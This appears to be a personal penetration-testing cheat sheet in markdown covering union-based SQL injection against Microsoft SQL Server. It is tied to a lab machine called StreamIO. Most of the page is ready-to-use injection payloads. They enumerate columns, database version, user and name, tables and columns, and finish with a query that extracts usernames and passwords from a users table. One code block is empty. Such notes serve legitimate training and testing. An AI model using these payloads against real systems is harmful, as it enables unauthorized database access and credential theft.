 ```yaml
---
description: >-
  SQL Injection MSSQL
title:  SQL Injection MSSQL            # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, SQL Injection - MSSQL]                     # Change Templates to Writeup
tags: [exploitation, sql injection, mssql, union select]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Simple Commands
Simple enumeration is to be abused with following queries such queries where taken from [PayloadAllTheThings](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet):
```bash

```

### Union Select
First of all we need to identify the behavior of the database with sqli payloads, a good idea is to enumerate columns with sqli such as :
```bash
' union select 1-- -
' union select 1,2-- -
' union select 1,2,3-- -
' union select 1,2,3,4-- -
' union select 1,2,3,4,5-- -
' union select 1,2,3,4,5,6-- -
```

> If there is a successsful answer then we need to identify which column retrieves information from the database.
{: .prompt-tip }

#### Version
```bash
' union select 1,@@version,3,4,5,6 -- -
```
![Database_Version](/assets/img/Pasted image 20230426233714.png)

#### Database user
You can use any of the options below:
```bash
' union select 1,CURRENT_USER,3,4,5,6 -- -
' union select 1,user_name(),3,4,5,6 -- -
' union select 1,system_user,3,4,5,6 -- -
' union select 1,user,3,4,5,6 -- -
```
![Database_User](/assets/img/Pasted image 20230426234307.png)

#### Database name
It is of upmost importance to gather the name of the database being used:
```bash
' union select 1,DB_NAME(),3,4,5,6 -- -
```
![Database_Name](/assets/img/Pasted image 20230426234212.png)

#### Tables
Once that we get the name of the database we can proceed to gather the tables on such database:
```bash
# First and simple option is retrieving all the info from a table
' union select 1,name,3,4,5,6 FROM STREAMIO..sysdatabases-- -
``` 
![Database_Tables](/assets/img/Pasted image 20230426235140.png)

Another option is to retrieve the tables on a simple column with the function [STRING_AGG](https://www.mssqltips.com/sqlservertutorial/9371/sql-string-agg-function/):
```bash
' union select 1,(SELECT STRING_AGG(name, ', ') FROM STREAMIO..sysobjects),3,4,5,6-- -
```
![Database_Tables](/assets/img/Pasted image 20230426235753.png)

#### Columns
Then we extract the column names, we can use a WHERE condition clause to extract only the columns from an specific table in this case the "users" table:
```bash
' union select 1,name,3,4,5,6 FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name = 'users')-- -
```
![Database_Columns](/assets/img/Pasted image 20230427000937.png)

#### Data within the tables
Finally once that we gather all the info we then proceed to retrieve information from the table:
```bash
' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```
Examples: 
[StreamIO](https://shuciran.github.io/posts/Streamio/#fnref:)